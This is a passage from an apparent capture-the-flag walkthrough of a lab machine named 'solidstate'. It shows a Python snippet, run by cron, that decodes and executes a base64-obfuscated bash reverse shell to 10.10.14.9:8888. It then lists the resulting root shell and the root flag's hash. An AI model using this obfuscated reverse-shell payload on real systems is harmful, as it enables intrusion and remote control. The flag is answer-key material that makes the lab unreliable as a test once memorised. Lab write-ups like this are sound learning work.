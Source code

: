 ```
try:
     os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45Lzg4ODggMD4mMQ== |base64 -d|bash')
except:
     sys.exit()
```

And We get a root shell back when the cron executes.
![[Pasted image 20210702203930.png]]
## Getting the root Flag
```python
root@solidstate:~# ls -l
total 4
-rw------- 1 root root 33 Nov 18  2020 root.txt
root@solidstate:~# cat root.txt 
4f4afb55463c3bc79ab1e906b074953d
```
